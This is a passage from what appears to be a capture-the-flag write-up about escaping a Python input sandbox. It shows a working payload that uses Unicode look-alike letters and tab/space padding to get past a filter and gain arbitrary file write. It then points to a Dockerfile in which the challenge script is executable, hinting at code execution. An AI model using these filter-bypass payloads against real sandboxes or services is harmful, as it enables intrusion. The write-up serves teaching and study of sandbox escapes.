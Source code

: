 This uses [decorators](https://docs.python.org/3/glossary.html#term-decorator) to execute functions without having to worry about matching parentheses. The string could be further minimised, but the more important problem is that Python asks for our string using `input`, so we cannot actually send newlines...

But, using the same general set of operations and facing the problem of properly positioning paretheses after all, we got to:

```python
x = "".join([
    "[ \t ",
    "\t open\t ",
    "\t(\t ",
    "\t i𝔫put\t ",
    "\t(\t ",
    "),\t ",
    "\t i𝔫put\t ",
    "\t(\t ",
    ") \t ",
    ") \t ",
    "\t.\t ",
    "write(\t ",
    "\t i𝔫put\t ",
    "\t(\t ",
    "\t \t ",
    ") \t ",
    ") \t ",
    "]",
])
```

Note the use of alternating tabs and spaces as padding, after wrapping everything in a pair of braces to avoid Python complaining about the leading indentation. The (UTF-8-encoded) length of each component above is a multiple of 4.

What this actually executes is this code:

```python
[open(input(), input()).write(input())]
```

That is, we open a file and write data to it, and we provide three more strings over additional lines:

- the path to the file,
- the mode to `open` it in, and
- the data to write to it.

Great! So why is this useful?

At the very beginning we noticed that the Python file starts with a shebang. As it turns out, the challenge setup is somewhat funky, because of these lines in the `Dockerfile`:

```dockerfile
  FROM python:3.13-slim as app
> COPY main.py /srv/app/run
> RUN chmod +x /srv/app/run
  COPY flag.txt /srv/app/
  RUN mv /srv/app/flag.txt /srv/app/flag_$(dd if /dev/urandom bs=16 count=1 | xxd -p).txt
  RUN apt-get update
  RUN apt-get install -y socat
> ENTRYPOINT socat TCP-LISTEN:5000,fork,reuseaddr,bind=0.0.0.0 EXEC:"/srv/app/run"
```
